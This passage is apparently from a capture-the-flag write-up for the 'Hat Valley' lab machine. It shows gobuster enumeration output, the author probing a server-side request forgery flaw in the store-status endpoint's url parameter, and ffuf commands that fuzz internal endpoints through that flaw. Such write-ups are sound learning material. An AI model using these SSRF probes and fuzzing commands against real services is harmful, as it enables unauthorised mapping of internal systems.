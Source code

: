 ```bash
2023/01/31 22:44:55 Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 401) [Size: 188]
/cart                 (Status: 301) [Size: 178] [--> http://store.hat-valley.htb/cart/]
/css                  (Status: 301) [Size: 178] [--> http://store.hat-valley.htb/css/] 
/fonts                (Status: 301) [Size: 178] [--> http://store.hat-valley.htb/fonts/]
/img                  (Status: 301) [Size: 178] [--> http://store.hat-valley.htb/img/]  
/index.php            (Status: 401) [Size: 188]                                         
/info.php             (Status: 401) [Size: 188]                                         
/js                   (Status: 301) [Size: 178] [--> http://store.hat-valley.htb/js/]   
/phpinfo.php          (Status: 401) [Size: 188]                                         
/static               (Status: 301) [Size: 178] [--> http://store.hat-valley.htb/static/]
/xmlrpc.php           (Status: 401) [Size: 188]                                          
/xmlrpc_server.php    (Status: 401) [Size: 188]         
```

I tried Server Side Request Forgery (SSRF) with the URLs above, and for http://hat-valley.htb (including `/api/all-leave`, `/api/login`) via http://hat-valley.htb/api/store-status?url="URL", and each time would get a 200 response.  I noticed in the webpack file:

```
WEBPACK_IMPORTED_MODULE_2__["default"]
    .store_status("http://store.hat-valley.htb")
    .then(function (data) {
        if (data.length > 0) {
            _this.status = "Up";
            _this.color = "green"
        } else {
            _this.status = "Down";
        }
    })
```

So an empty 200 response when we attempt SSRF probably means the URL was unreachable if the body is empty.  I was able to validate this by running a web server locally and hitting http://hat-valley.htb/api/store-status?url=htt://10.10.14.48 . The response would contain the body of the index file I served up (as per above).

I thought perhaps serving up a PHP or Node file might allow RCE if the server executes the file as part of rendering to the browser, but this didn't work -- just the file contents were returned -- no parsing and interpreting :(

I ran `ffuf` to enumerate local endpoints, but filter out 0 byte responses -- and similar for store.hat-valley.htb, but did not find anything:

```bash
ffuf -u "http://hat-valley.htb/api/store-status?url=%22http:%2F%2F127.0.0.1/FUZZ%22" -w /usr/share/dirb/wordlists/common.txt -fs 0
                        [Status: 200, Size: 132, Words: 6, Lines: 9, Duration: 172ms]
index.html              [Status: 200, Size: 132, Words: 6, Lines: 9, Duration: 64ms]
:: Progress: [4614/4614] :: Job [1/1] :: 391 req/sec :: Duration: [0:00:16] :: Er

$ffuf -u "http://hat-valley.htb/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb/FUZZ%22" -w /usr/share/dirb/wordlists/common.txt -fs 0
:: Progress: [4614/4614] :: Job [1/1] :: 357 req/sec :: Duration: [0:00:22] :: Errors: 0 ::

```
